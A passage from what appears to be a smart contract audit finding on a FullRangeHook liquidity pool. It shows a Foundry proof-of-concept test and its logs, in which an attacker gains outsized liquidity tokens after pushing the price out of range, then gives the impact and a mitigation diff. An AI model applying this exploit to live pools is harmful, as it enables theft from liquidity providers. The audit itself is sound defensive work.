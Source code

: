 ```solidity
        TickMath.getSqrtPriceAtTick(MIN_TICK),
        TickMath.getSqrtPriceAtTick(MAX_TICK),
        amount0Alice,
        amount1Alice
    );
    console.log("calculated liquidity: %s", uint256(liquidity));

    vm.prank(alice);
    uint128 addedLiquidityAlice = fullRange2.addLiquidity(addLiquidityParamsAlice);
    console.log("added liquidity alice: %s ", uint256(addedLiquidityAlice));

    uint256 liquidityTokenBalAlice = IncentivizedERC20(liquidityToken).balanceOf(alice);
    console.log("liquidityTokenBal alice: %s", liquidityTokenBalAlice);
    console.log("token0 diff alice add liquidity: %s", amount0AliceBefore - token0.balanceOf(alice));
    console.log("token1 diff alice add liquidity: %s", amount1AliceBefore - token1.balanceOf(alice));
}
```

Output:
```bash
Ran 1 test for test/FullRangeHook.t.sol:TestFullRangeHook
[PASS] test_addLiquidityFullRangePoC() (gas: 3292884)
Logs:
  bob adding liquidity
  added liquidity bob: 54353
  token0 diff bob add liquidity: 999994954645167564999855
  token1 diff bob add liquidity: 0
  liquidityTokenBal bob: 53353
  alice adding liquidity
  calculated liquidity: 54516555
  added liquidity alice: 54516555
  liquidityTokenBal alice: 66258319
  token0 diff alice add liquidity: 2439
  token1 diff alice add liquidity: 1219027186039
```
As can be seen above, Alice receives significantly more liquidity tokens for far fewer underlying pool tokens.

**Impact:** Pools configured with the `FullRangeHook` can be disabled by manipulation of the price to be outside the intended range. This can also result in financial loss for liquidity providers.

**Recommended Mitigation:** Prevent the price from being moved outside of the intended tick range when swapping with the `FullRangeHook`:

```diff
    function afterSwap(address, PoolKey calldata key, IPoolManager.SwapParams calldata, BalanceDelta, bytes calldata)
        external
        override
        onlyPoolManager
        returns (bytes4, int128)
    {
        PoolId poolId = key.toId();

++      (uint160 sqrtPriceX96,,,) = poolManager.getSlot0(poolId);
++      require(sqrtPriceX96 > TickMath.getSqrtPriceAtTick(MIN_TICK) && sqrtPriceX96 < TickMath.getSqrtPriceAtTick(MAX_TICK), "Outside tick range");

        if (address(incentiveManager) != address(0)) {
            incentiveManager.notifySwap(poolId, poolInfo[poolId].liquidityToken);
        }

        return (FullRangeHook.afterSwap.selector, 0);
```